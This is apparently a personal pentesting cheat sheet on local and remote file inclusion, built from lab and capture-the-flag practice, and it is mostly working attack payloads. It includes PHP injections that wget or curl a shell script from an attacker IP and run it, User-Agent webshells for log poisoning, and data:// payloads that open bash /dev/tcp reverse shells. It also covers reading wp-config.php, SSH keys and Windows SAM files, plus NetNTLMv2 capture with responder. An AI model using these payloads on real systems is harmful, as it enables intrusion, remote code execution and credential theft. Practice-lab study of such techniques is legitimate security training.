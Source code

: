 # LFI/RFI

<details>

<summary>Signs</summary>

* Files being included in Get parameter

- Able to view file extensions (eg: french.html)

</details>

<details>

<summary>Method</summary>

#### Method

1. Try to view the server file (view the blacklist)
2. Log poisoning
3. Find Interesting files to read

[https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf](https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-\(lfi\).pdf)

</details>

<details>

<summary>Advanced LFI</summary>

[https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion/README.md#lfi-via-phps-assert)

```bash
' and die(show_source('/etc/passwd')) or '
```

```php
'+and+die(system("wget+http%3a//192.168.45.5/shell.sh+-O+/tmp/shell.sh%3bchmod+777+/tmp/shell.sh%3b/tmp/shell.sh"))+or+'
```

```bash
' and die(system("curl http://192.168.45.5/shell.php|php")) or '
```

</details>

<details>

<summary>Base64-encoded LFI</summary>

```bash
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

### Export the wp-config.php and save as base64

```
http://172.16.1.10/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php
```

</details>

<details>

<summary>User-Agent LFI</summary>

* Sometimes it's impt to use `"` as `'` is being used by the database to define the entire string (Putting Webshell in PHPLiteAdmin DB)

```php
User-Agent:<?php system($_GET['cmd']); ?>
```

```php
User-Agent:<?php system($_REQUEST["cmd"]); ?>
```

```php
User-Agent:<?php echo shell_exec($_GET["cmd"]);?>
```

</details>

<details>

<summary>LFI to RCE (Filter Chaining)</summary>

Use [https://github.com/Tanguy-Boisset/LFI-to-RCE-filters](https://github.com/Tanguy-Boisset/LFI-to-RCE-filters)

LFI is present in: `http://172.16.1.10/nav.php?../../../../etc/passwd`

```bash
python3 lfi-to-rce.py http://172.16.1.10/nav.php page
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>LFI To RCE (Log poisoning)</summary>

* Linux

<pre class="language-bash"><code class="lang-bash"><strong>view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&#x26;cmd=wget+http%3a//10.11.67.208%3a8023/php-reverse-shell.php
</strong></code></pre>

* WIndows

```bash
?page=../../../../../xampp/apache/logs/access.log
```

User-Agent:\<?php system($\_GET\['cmd']) ?>

RCE:

[http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami ](http://192.168.165.53:4443/site/index.php?page=../../../../../xampp/apache/logs/access.log\&cmd=whoami)

</details>

<details>

<summary>LFI To RCE (Mail Method)</summary>

#### Send email to asterisk user (LFI /etc/passwd to determine user)

```bash
swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shell" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
```

#### Able to obtain RCE (webshell)

```bash
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action&cmd=id
```

![](<../.gitbook/assets/image (105).png>)

</details>

<details>

<summary>Testing for RFI</summary>

```php
<?php echo shell_exec('echo abc > /tmp/test.txt');echo file_get_contents('/tmp/test.txt');?> 
```

</details>

<details>

<summary>RFI Rev shell</summary>

```bash
http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec('bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.68%2F443%200%3E%261');?>
```

* Have to url-encode the rev shell payload in `shell_exec()`

```php
data:text/plain,<?php passthru("bash -i >& /dev/tcp/X.X.X.X/4444 0>&1"); ?>
```

</details>

<details>

<summary>Finding interesting files to read</summary>

Use Burpsuite --> Intruder --> wordlist: /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

</details>

<details>

<summary>Interesting files (Linux)</summary>

* /etc/passwd&#x20;
* /etc/shadow&#x20;
* /etc/issue&#x20;
* /etc/group&#x20;
* /etc/hostname&#x20;
* /etc/ssh/ssh\_config&#x20;
* /etc/ssh/sshd\_config&#x20;
* /root/.ssh/id\_rsa&#x20;
* /root/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/authorized\_keys&#x20;
* /home/user/.ssh/id\_rsa

```
RHEL / Red Hat / CentOS / Fedora Linux Apache access file location – /var/log/httpd/access_log
Debian / Ubuntu Linux Apache access log file location – /var/log/apache2/access.log
FreeBSD Apache access log file location – /var/log/httpd-access.log
```

* /etc/httpd/logs/access\_log&#x20;
* /etc/httpd/logs/error\_log
* &#x20;/var/www/logs/access\_log&#x20;
* /var/www/logs/access.log&#x20;
* /usr/local/apache/logs/access\_ log&#x20;
* /usr/local/apache/logs/access. log&#x20;
* /var/log/apache/access\_log&#x20;
* /var/log/apache2/access\_log&#x20;
* /var/log/apache/access.log&#x20;
* /var/log/apache2/access.log&#x20;
* /var/log/access\_log

</details>

<details>

<summary>Interesting files (Windows)</summary>

* /windows/system32/drivers/etc/hosts&#x20;

- ./../../xampp/apache/conf/httpd.conf
- ../../../xampp/password
- ../../../../../../Program Files/FileZilla Server/FileZilla Server.xml
- /boot.ini&#x20;
- /autoexec.bat&#x20;
- c:\xampp\htdocs\\...

### SAM Files & SECURITY FILES&#x20;

```bash
Systemroot is usually windows
windows\repair\SAM
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM


%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

* Just wget the files

```bash
wget "http://10.3.3.190/..%5C..%5C..%5CWindows/system32/config/RegBack/SAM.OLD"
```

</details>

<details>

<summary>Exfiltrating Binary Data Embedded in HTML Tags</summary>

```bash
 wget -qO- 'http://X.X.X.X/vulnpage?vulparam=..\..\..\..\..\..\..\..\..\..\..%5cWINDOWS%5cRepair%5cSAM%00en' |perl -l -0777 -ne 'print $1 if /<title.*?>\s*(.*?)\s*<\/title/si' > SAM
```

</details>

<details>

<summary>Capturing NetNTLMv2 from RFI</summary>

Using a protocol like SMB, victim will try to authenticate to our machine, and we can capture the NetNTLMv2. A NetNTLMv2 challenge / response is a string specifically formatted to include the challenge and response.&#x20;

On Attacker:

```bash
responder -I tun0
```

On Victim:

```
http://unika.htb/?page=//10.10.14.25/whatever
```

</details>

<details>

<summary>Shortening LFI Query</summary>

### Example (checking for keyword in LFI query)

LFI found:

```bash
http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt../../../../../../../../../etc/passwd
```

Filter is actually checking for the presence of `ninevehNotes.txt`

So the LFI query can be simplified to:

```bash
http://nineveh.htb/department/manage.php?notes=/ninevehNotes.txt/../etc/passwd
```

</details>

<details>

<summary>Apache 2.4.49</summary>

```bash
/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/home/anita/.ssh/id_ecdsa
```

</details>

<details>

<summary>Links</summary>

[https://oscp.infosecsanyam.in/web-application/lfi](https://oscp.infosecsanyam.in/web-application/lfi)

</details>

<details>

<summary>How to know if file is present but unable to be viewed currently?</summary>

`/nav.php?page=../../../../var/www/html/wordpress/wp-config.php` --> Status code 500

means that file is present but unable to be viewed --> need b64 encode

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

`/nav.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/wordpress/wp-config.php`

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

OTHERWISE, if file is not present --> Status code 200

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

OR if file is present and viewable --> Status Code 200

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

</details>
